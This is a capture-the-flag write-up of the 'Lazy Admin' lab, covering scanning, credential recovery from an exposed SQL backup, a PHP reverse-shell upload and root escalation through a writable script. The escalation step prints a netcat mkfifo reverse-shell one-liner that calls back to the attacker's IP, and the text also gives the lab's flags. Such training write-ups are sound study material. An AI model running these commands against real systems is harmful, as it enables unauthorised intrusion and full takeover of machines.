









# Task 1 - Lazy Admin

## Enumeration

For the enumeration I ran an nmap scan and a gobuster scan just in case port 80 is open

sudo nmap -sV -sC -T5 -p- 10.10.244.104 -oN \~/Github/LazyAdminCTF/nmapscan.md

When the nmap scan finishes we can see that we have 2 ports open 22 and 80 for ssh and http

gobuster dir -u http://10.10.244.104 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 60 -q

On our gobuster scan we found one directory that was interesting, the /content directory

When we navigate to the content directory we can see the webiste is a management system called CMS Sweetrice.

Since we found this directory I am going to run another gobuster scan on the /content directory so we can see if there are any other useful webpages.

Some of the directories that we found were /inc and /as, when navigating to http://IP/content/inc we see an index of different files. One of the folders that I found interesting was the mysql_backup inside this folder we can see there is a .sql file.

We can download the SQL file and search for a username or password in the file, searching for admin we get the username manager and a hashed password. We can use a tool called hash-identifier to determine what type of hash this is.

admin: manager
password: 42f749ade7f9e195bf475f37a44cafcb

We can see that the tool is not too sure what the hash is but there are many different versions of md5 so we can use an online tool to try to crack this as an md5 hash.

Once that is cracked we get the password

Now we have a password and a possible username being manager that was also found in the SQL file. Searching around the /inc directory I found a latest.txt file that just had "1.5.1" so I will assume that is the version.

## Exploitation

Username: manager
Password: Password123

Going back to our first gobuster scan we can see there is an /as directory. That was one of the available direcotories which is a login page. Now we are able to login using the username and password we found in the .sql file.

Clicking around this site I eventually found the Ads tab that may allow us to imput code into the machine.

I will go and grab the reverse_php file from pentestmonkey on Github that we have used in past CTFs. I can paste the contents of this file into the text box.

Now that the php file has been uploaded we can start a netcat listener on the port we specified in the file, then we can go back to the /inc directory and see if we can open the php file.

Inside the ads folder we have the reverse_php file we had uploaded and when we oppen that file we get a shell on our listener.

### What is the user flag?

we can run python -c 'import pty; pty.spawn("/bin/bash")' to gain a stronger shell.

now moving around in the file system in the /home directory we can see there is a user named itguy and in his directory there is a user.txt that we can cat out.

cat user.txt: THM{63e5bce9271952aad1113b6f1ac28a07}

### What is the root flag?

Now to find the root flag, using sudo -l we can see what our user is able to run as sudo. We can see there is a pearl script in the /home/itguy directory that we may be able to use.

using sudo -V we can see that the version of sudo on this machine is 1.8.16 so we may be able to use a security bypass exploit that we have used in past machines. The security bypass exploit did not work so I will take a look at the perl script we have

looking at the perl script it is running another script in the /etc directory

We are able to write to the /etc/copy.sh, I copied what was in the copy.sh file since it would already spawn a reverse shell then I modified it to include my IP.

echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.13.16.145 4441 >/tmp/f" > /etc/copy.sh

now I tried to run the file after starting a nc listener but every time I was getting the shell it was still in the user permissions. I messed around with sudo and perl to see if we can run the backup.pl script.

Finally looking back to the sudo -l command we can see that we are able to run the bakcup.pl script with sudo when we use the full path so I ran sudo perl /home/itguy/backup.pl and this opened a root shell on my listener.

From here we can go to /root and ls. Now we see the root.txt file and the root flag is: THM{6637f41d0177b6f37cb20d775124699f}

For this room we were able to upload a reverse shell and use that initial foothold to see what files we were able to run as sudo. Then we used those permissions to spawn a root shell.